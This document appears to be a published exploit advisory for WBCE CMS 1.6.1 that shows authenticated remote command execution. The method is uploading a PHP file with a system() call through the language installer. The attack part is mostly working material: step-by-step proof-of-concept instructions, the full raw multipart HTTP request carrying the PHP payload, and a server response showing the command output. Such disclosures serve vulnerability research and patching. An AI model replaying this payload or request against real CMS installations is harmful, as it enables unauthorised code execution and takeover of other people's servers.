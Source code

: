 ## Exploit Title: WBCE CMS Version 1.6.1 Remote Command Execution

- **Date:** 30/11/2023
- **Exploit Author:** tmrswrr
- **Vendor Homepage:** [WBCE CMS](https://wbce-cms.org/)
- **Software Link:** [WBCE CMS 1.6.1](https://github.com/WBCE/WBCE_CMS/archive/refs/tags/1.6.1.zip)
- **Version:** 1.6.1

<img src="https://raw.githubusercontent.com/capture0x/WBCE_CMS/main/1.png" alt="WBCE_CMS Image" width="1000">

<img src="https://raw.githubusercontent.com/capture0x/WBCE_CMS/main/2.png" alt="WBCE_CMS Image" width="1000">


### POC:

1. Login with admin credentials and click on Add-ons.
2. Navigate to Language > Install Language >https://demos6.demo.com/admin/languages/index.php
3. Upload `upgrade.php` with the content `<?php echo system('id'); ?>`, then click install > https://demos6.demo.com/admin/languages/install.php
4. The command execution result will be displayed: 

uid=1000(soft) gid=1000(soft) groups=1000(soft)
uid=1000(soft) gid=1000(soft) groups=1000(soft)



### Post Request:

```http
POST /admin/languages/install.php HTTP/1.1
Host: demos6.demo.com
Cookie: [cookie values]
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://demos6.demo.com/admin/languages/index.php
Content-Type: multipart/form-data; boundary=---------------------------86020911415982314764024459
Content-Length: 522
Origin: https://demos6.softaculous.com
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="formtoken"

5d3c9cef-003aaa0a62e1196ebda16a7aab9a0cf881b9370c
-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="userfile"; filename="upgrade.php"
Content-Type: application/x-php

<?php echo system('id'); ?>

-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="submit"


-----------------------------86020911415982314764024459--```

### Response:

```<!-- ################### Up from here: Original Code from original template ########### -->

<!-- senseless positioning-table: needed for old modules which base on class td.content -->
<div class="row" style="overflow:visible">
<div class="fg12">
<table id="former_positioning_table">
<tr>
    <td class="content">
uid=1000(soft) gid=1000(soft) groups=1000(soft)
uid=1000(soft) gid=1000(soft) groups=1000(soft)
    <div class="top alertbox_error fg12 error-box">
        <i class=" fa fa-2x fa-warning signal"></i>

                    <p>Invalid WBCE CMS language file. Please check the text file.</p>
        
                    <p><a href="index.php" class="button">Back</a></p>```


